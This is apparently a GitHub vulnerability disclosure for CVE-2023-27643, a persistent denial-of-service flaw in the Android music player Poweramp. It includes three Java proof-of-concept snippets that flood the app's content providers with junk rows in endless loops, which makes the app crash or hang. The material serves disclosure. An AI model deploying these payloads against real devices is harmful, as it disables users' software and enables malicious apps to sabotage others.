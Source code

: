 ## Denial of Service exists in POWERAMP（CVE-2023-27643）

Vendor：POWERAMP(https://powerampapp.com/)

Affected product：Poweramp (com.maxmpz.audioplayer)

Version：build-954-uni

Download link：https://play.google.com/store/apps/details?id=com.maxmpz.audioplayer

Description of the vulnerability for use in the CVE：An issue found in POWERAMP 925-bundle-play and Poweramp 954-uni allows a remote attacker to cause a denial of service via the Rescan button in Queue and Select Folders button in Library.

Additional information：Poweramp application is a famous music player used in Android system. When the user triggers some action, it loads the relevant data stored in the database into the memory. If a malicious app injects a large amount of data into the database, the Poweramp app will crash because of loading this data. Even worse, users cannot fix this security issue by simply restarting the application, and the Poweramp application will still not be able to respond to any user requests when certain actions are triggered to load the database.



1.After inserting a large amount of data into the database, it will cause the APP to take too long to load and fall into unresponsive state (the length depends on the size of the injected data), and the main page is in DoS state at this time.

poc：

```java
public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/playlists");
        while (true) {
            ContentValues contentValues = new ContentValues();
            String randomString = getRandomString(5120);
            contentValues.put("playlist",randomString);
            contentValues.put("playlist_path",randomString);
            contentResolver.insert(uri,contentValues);
        }
    }
```

<img src="CVE detail.assets/image-20230410152852696.png" alt="image-20230410152852696" style="zoom:75%;" />





2.After inserting a large amount of data into the database, when the user clicks the Rescan button in the Queue, the APP will read the queue table from the database, resulting in a DoS attack.

poc：

```java
    public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/queue");
        while (true) {
            ContentValues contentValues = new ContentValues();
            contentValues.put("folder_file_id",1);
            contentResolver.insert(uri,contentValues);
        }
    }
```

<img src="CVE detail.assets/image-20230410153051062.png" alt="image-20230410153051062" style="zoom:67%;" />



3.After inserting a large amount of data into the database, persistent DoS is triggered when the user clicks the Select Folders button.

poc：

```java
    public void attack(){
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        Uri uri = Uri.parse("content://com.maxmpz.audioplayer.data/storages");
        while (true) {
            ContentValues contentValues = new ContentValues();
          	String randomString = getRandomString(5120);
            contentValues.put("path",randomstring);
          	contentValues.put("path_hash",randomstring);
            contentResolver.insert(uri,contentValues);
        }
    }
```



<img src="CVE detail.assets/image-20230410153152922.png" alt="image-20230410153152922" style="zoom:67%;" />
